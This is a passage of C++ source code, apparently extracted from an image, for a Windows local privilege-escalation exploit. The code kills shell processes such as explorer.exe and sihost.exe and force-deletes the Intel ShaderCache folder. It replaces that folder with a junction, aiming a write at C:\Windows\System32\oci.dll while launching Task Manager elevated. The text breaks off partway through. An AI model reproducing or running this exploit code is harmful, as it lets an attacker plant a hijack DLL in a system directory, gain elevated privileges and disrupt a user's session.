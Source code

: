 ```cpp
void checkdir()
{
    std::wstring dir = L"C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache";

    WinExec("cmd.exe /c TASKKILL /F /IM explorer.exe", 0);
    Sleep(500);
    WinExec("cmd.exe /c del /F /Q C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache\\*", 0);

    WinExec("cmd.exe /c TASKKILL /F /IM sihost.exe", 0);
    Sleep(500);
    WinExec("cmd.exe /c del /F /Q C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache\\*", 0);

    WinExec("cmd.exe /c TASKKILL /F /IM ShellHost.exe", 0);
    Sleep(500);
    WinExec("cmd.exe /c del /F /Q C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache\\*", 0);

    WinExec("cmd.exe /c TASKKILL /F /IM ApplicationFrameHost.exe", 0);
    Sleep(500);
    WinExec("cmd.exe /c del /F /Q C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache\\*", 0);

    std::wstring checkEmpty = GetMostRecentFile(dir);

    if (checkEmpty.empty()) {
        std::wcerr << L"Good news! No files found in the directory :)  Deleting directory and creating the junction!\n";
        WinExec("cmd.exe /c rmdir /S /Q C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache", 0);
        Sleep(1000);
    }
    else {
        std::wcout << L"There are still files...continuing to kill tasks and delete stuff...Remaining file: " << checkEmpty << std::endl;
        Sleep(1000);
        checkdir();
    }
}

int wmain() {
    std::cout << "********************************\nIMPORTANT\n********************************\n";
    std::cout << "Before continuing, make sure ALL Desktop apps with a GUI are closed.  This includes browsers, notepad, discord, etc\n";
    std::cout << "The tool is only accounting for built in windows processes that have handles to files in the shadowcache directory\n";
    std::cout << "Press [ENTER] to continue...\n";
    std::cin.get();
    std::wstring recentFile, initialcheck;
    std::wstring dllTarget = L"\\??\\C:\\Windows\\System32\\oci.dll";

    LaunchElevatedProcessWithTimeout(L"C:\\Windows\\system32\\taskmgr.exe", L"", 3000);

    std::wstring dir = L"C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache";
    initialcheck = GetMostRecentFile(dir);

    if (initialcheck.empty()) {
        std::wcerr << L"Good news! No files found in the directory.\n";
    }
    else {
        std::wcout << L"Most recent file: " << initialcheck << std::endl;

        // Write to text file
        std::wofstream outFile(L"c:\\users\\public\\recent.txt");
        if (outFile) {
            outFile << initialcheck;
```